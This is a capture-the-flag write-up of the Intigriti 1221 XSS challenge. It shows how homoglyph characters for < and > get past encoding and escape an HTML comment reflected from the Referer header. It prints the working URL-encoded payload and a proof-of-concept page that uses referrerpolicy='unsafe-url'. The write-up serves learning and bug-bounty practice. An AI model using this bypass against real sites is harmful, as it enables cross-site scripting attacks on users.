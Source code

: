 ```yaml
---
title:      Intigriti - XSS Challenge 1221
author:     Bruno Halltari
date:       2021-12-27 16:09:00
summary:    Homoglyph XSS
categories: Intigriti web exploitation
tags:
 - Intigriti
 - Web Exploitation
 
---
```


## Let's start
The challenge comes with an input field and a parameter called " Stay open " to avoid repeating an animation, first of all I tried to insert a simple payload like `<script>alert(document.domain)</script>` to understand where the starting point was.
```html

<h4 id="punchline">Result:  alert(document.domain) 
 <!-- Referer: https://challenge-1221.intigriti.io/challenge/index.php?payload= &gt;script&lt;alert(document.domain)&gt;/script&lt;&open=on -->
</h4>

```

From the soruce, you can see two pieces of information, first of all the content is reflected inside an html comment.
This is really important because with a simple payload like ` --><script>alert(document.domain)</script>` we can escape from the comment and execute our xss payload, 
but there is a problem, as you can see from the screen  the characters `<` and `>` are encoded.

At this point I tried to think of various bypasses until I came up with an idea based on a previously played ctf.

## Homoglyph characters
Homoglyph are character that look alike but are not the same, so it's possible to use characters that looks the same but are interpreted 
differently from the server.
this is really important because we can use this type of characters to bypass the control on `<` and `>`

Here you can find some examples: https://github.com/codebox/homoglyph/blob/master/raw_data/chars.txt


## Final Payload

To build the final payload I simply used Homoglyph characters regarding the `<` and the `>`, in this way I was able to close the html comment and escape in order to execute XSS.

`https://challenge-1221.intigriti.io/challenge/index.php?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5`

To be sure, I url encoded the whole payload.

`https://challenge-1221.intigriti.io/challenge/index.php?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5`

Just to be clear, clicking the link will not execute the xss, but you will need to enter ` --﹥﹤script﹥alert(document.domain)﹤/script﹥  ` inside the input field ( we will see after how to not make this case a self-xss )

```html
<h4 id="punchline">Result: xss
<!-- Referer: https://painreigns.github.io/xmasxss.html?payload=--><script>alert(document.domain)</script>
"-->"
</h4>

```


As you can see, I was able to get out of the Html comment, and execute my payload.


## Final Poc

Now that we know how to execute the xss it's not over, in fact the scenario described is that of a Self-XSS, which is no good.
To avoid this problem, I wrote this simple POC:

```html

<html>
  <body>
    <a href="https://challenge-1221.intigriti.io/challenge/index.php?payload=xss" referrerpolicy="unsafe-url">Click here </a>
  </body>
</html>


```

The only interesting part is the `referrerpolicy="unsafe-url"` parameter that is needed to send the origin, path, and query string when performing any request, regardless of security.
This means that this policy will leak potentially-private information (in this case our payload) from HTTPS resource URLs to insecure origins, without this parameter it would not be possible to populate the referrer header from an external origin and execute XSS.


The last step is to host our code and insert the payload described above in the url:

`https://mydomain/xmasxss.html?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5`

